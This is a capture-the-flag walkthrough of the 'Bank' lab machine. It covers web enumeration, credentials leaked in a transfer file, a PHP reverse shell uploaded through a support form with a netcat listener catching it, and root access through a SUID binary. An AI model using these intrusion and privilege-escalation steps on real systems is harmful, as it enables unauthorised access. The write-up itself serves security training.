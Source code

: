 Bank is a relatively simple machine, however proper web enumeration is key to finding the necessary data for entry. There also exists an unintended entry method, which many users find before the correct data is located. 
![Bank](https://github.com/user-attachments/assets/4c3b0d67-8891-4012-9064-98f1bb5781d7)

## Reconnaissance and Enumeration
---

I started with a typical nmap scan -sC for default scripts, -sV to show version, -O for OS detection and -T5 to speed up scan
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -O -T5 bank.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 23:58 CEST
Nmap scan report for bank.htb (10.10.10.29)
Host is up (0.032s latency).
rDNS record for 10.10.10.29: Bank.htb
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-title: HTB Bank - Login
|_Requested resource was login.php
Aggressive OS guesses: Linux 3.10 - 4.11 (95%), Linux 3.13 (95%), Linux 3.13 or 4.2 (95%), Linux 4.2 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.16 - 4.6 (94%), Linux 3.12 (93%), Linux 3.18 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.58 seconds
```
Standard login page, I didn't find anything usefull in source view
![banklogin](https://github.com/user-attachments/assets/08161350-1137-48e7-a3da-9e9a68114b1e)

Gobuster to enumerate directories on web server.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bank.htb          
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bank.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
```
![upload](https://github.com/user-attachments/assets/bef213d8-58d2-4203-990f-e126957d8868)
![assets](https://github.com/user-attachments/assets/08de7ef1-d7e7-480f-9ae3-81602cb9ee8f)
![inc](https://github.com/user-attachments/assets/9ca8bfb6-a245-4d91-b343-570e91a2fd35)

These directories contain standard PHP, JavaScript, and theme files. The `/balance-transfer/` path was more interesting:

![banktransfers](https://github.com/user-attachments/assets/3c27cb87-154f-4453-8071-964063033ebd)
In /balance-transfer, I found a large list of files. Most looked similar, but one file was noticeably smaller in size.
![banktrasnferacc](https://github.com/user-attachments/assets/721616e2-a33f-4628-8fd5-29e025aa0003)

![ourgoodacc](https://github.com/user-attachments/assets/b0788e5d-1fa9-4b46-be54-139ec55e0a87)
It contained a failed encryption error that exposed plaintext credentials. I used those to successfully log in.

![logintobank](https://github.com/user-attachments/assets/11950c0d-0f7a-4509-97c0-07c410104bda)
Logged in as Christos Christopoulos, I didn’t find anything interesting in the source view — so I decided to check the support page.

## Exploitation
---

![support](https://github.com/user-attachments/assets/1351104c-6ff3-4844-b650-81a594ec5aa5)
On the support page, users could attach image files to tickets. While inspecting the source code, I found an HTML comment mentioning support for .htb file extensions — a valuable hint that files with this extension might be accepted, even if they weren’t images.

![supportdevtools](https://github.com/user-attachments/assets/705ab752-7629-4f91-85dc-b95259ad5061)
I created a PHP reverse shell (PentestMonkey) and uploaded it with a .htb extension.
![succuploadphp](https://github.com/user-attachments/assets/321e02bb-d8c6-4df0-94e4-48db400e37ac)
I set up a listener and triggered the shell using the "Click here" button:
![workingshell](https://github.com/user-attachments/assets/bdcf51c5-d3bf-40ef-b603-5ce4256d720d)

```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.29] 41136
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 01:40:30 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Logged as `www-data`, I spawned proper TTY using `bash -i`, then navigate to home directory to retrieve user flag:
```
$ bash -i
bash: cannot set terminal process group (1072): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root  root  4096 Jan 11  2021 .
drwxr-xr-x 22 root  root  4096 Jan 11  2021 ..
drwxr-xr-x  3 chris chris 4096 Jan 11  2021 chris
www-data@bank:/$ wc /home/chris/user.txt
wc /home/chris/user.txt
 1  1 33 /home/chris/user.txt
```

## Privilege Escalation
---

I first checked for sudo permissions
```
www-data@bank:/$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
```
No permissions, so i checked for SUID binaries, You can search that by following commands:
```
find / -user root -perm -4000 -print 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null
find / -type f -perm -u=s 2>/dev/null | xargs ls -l
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
www-data@bank:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
www-data@bank:/$ cd /var/htb/bin
cd /var/htb/bin
www-data@bank:/var/htb/bin$ ls -la 
ls -la 
total 120
drwxr-xr-x 2 root root   4096 Jan 11  2021 .
drwxr-xr-x 3 root root   4096 Jan 11  2021 ..
-rwsr-xr-x 1 root root 112204 Jun 14  2017 emergency
www-data@bank:/var/htb/bin$ ./emergency
./emergency
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)                                                                                                                   
```
The `emergency` binary was owned by root and had the SUID bit set. Executing it successfully elevated privileges to root, allowing me to access the final flag.
```
wc /root/root.txt
 1  1 33 /root/root.txt
```
